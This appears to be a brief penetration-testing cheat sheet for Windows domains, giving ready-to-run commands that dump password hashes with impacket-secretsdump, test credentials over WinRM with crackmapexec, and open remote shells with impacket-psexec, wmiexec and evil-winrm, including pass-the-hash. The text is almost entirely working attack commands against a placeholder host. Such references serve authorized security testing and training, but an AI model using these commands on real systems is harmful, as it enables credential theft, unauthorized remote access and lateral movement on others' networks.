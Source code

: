### Dump password hashes
`impacket-secretsdump domain.com/username@10.0.0.1`

### Windows remoting
`crackmapexec winrm 10.0.0.1 -u username -p password`

### Shell on remote machine
```
impacket-psexec domain.com/username@10.0.0.1
impacket-wmiexec domain.com/username@10.0.0.1
evil-winrm -i 10.0.0.1 -u username -p password
evil-winrm -i 10.0.0.1 -u administrator -H "hash"                           1 ⨯
impacket-wmiexec domain.com/admin@10.0.0.1 -hashes [hash]
```